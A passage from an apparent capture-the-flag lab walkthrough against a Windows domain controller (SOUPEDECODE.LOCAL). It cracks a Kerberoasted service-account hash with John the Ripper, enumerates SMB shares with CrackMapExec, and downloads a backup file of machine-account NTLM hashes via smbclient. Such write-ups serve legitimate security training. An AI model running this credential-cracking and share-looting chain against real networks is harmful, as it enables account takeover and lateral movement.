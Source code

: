 `john --wordlist=/usr/share/wordlists/rockyou.txt ./fileserver_tgs.txt`:
```
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123!!    (?) ← 
1g 0:00:00:12 DONE (2024-09-03 04:47) 0.07757g/s 832585p/s 832585c/s 832585C/s Passwordas..Partygurl
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

`crackmapexec smb 192.168.56.128 -u 'file_svc' -p 'Password123!!' --shares`:
```
SMB         192.168.56.128  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.128  445    DC01             [+] SOUPEDECODE.LOCAL\file_svc:Password123!! 
SMB         192.168.56.128  445    DC01             [*] Enumerated shares
SMB         192.168.56.128  445    DC01             Share           Permissions     Remark
SMB         192.168.56.128  445    DC01             -----           -----------     ------
SMB         192.168.56.128  445    DC01             ADMIN$                          Remote Admin
SMB         192.168.56.128  445    DC01             backup          READ ←           
SMB         192.168.56.128  445    DC01             C$                              Default share
SMB         192.168.56.128  445    DC01             IPC$            READ            Remote IPC
SMB         192.168.56.128  445    DC01             NETLOGON        READ            Logon server share 
SMB         192.168.56.128  445    DC01             SYSVOL          READ            Logon server share 
SMB         192.168.56.128  445    DC01             Users
```

`smbclient -U 'file_svc' --password 'Password123!!' //192.168.56.128/backup`:
``` 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jun 17 13:41:17 2024
  ..                                 DR        0  Mon Jun 17 13:44:56 2024
  backup_extract.txt                  A      892  Mon Jun 17 04:41:05 2024 ←

                12942591 blocks of size 4096. 10955414 blocks available
smb: \> get backup_extract.txt ←
getting file \backup_extract.txt of size 892 as backup_extract.txt (23.5 KiloBytes/sec) (average 23.5 KiloBytes/sec)
smb: \> exit
```

`cat ./backup_extract.txt`:
```
WebServer$:2119:aad3b435b51404eeaad3b435b51404ee:c47b45f5d4df5a494bd19f13e14f7902:::
DatabaseServer$:2120:aad3b435b51404eeaad3b435b51404ee:406b424c7b483a42458bf6f545c936f7:::
CitrixServer$:2122:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
FileServer$:2065:aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559::: ←
MailServer$:2124:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
BackupServer$:2125:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
ApplicationServer$:2126:aad3b435b51404eeaad3b435b51404ee:8cd90ac6cba6dde9d8038b068c17e9f5:::
PrintServer$:2127:aad3b435b51404eeaad3b435b51404ee:b8a38c432ac59ed00b2a373f4f050d28:::
ProxyServer$:2128:aad3b435b51404eeaad3b435b51404ee:4e3f0bb3e5b6e3e662611b1a87988881:::
MonitoringServer$:2129:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
```
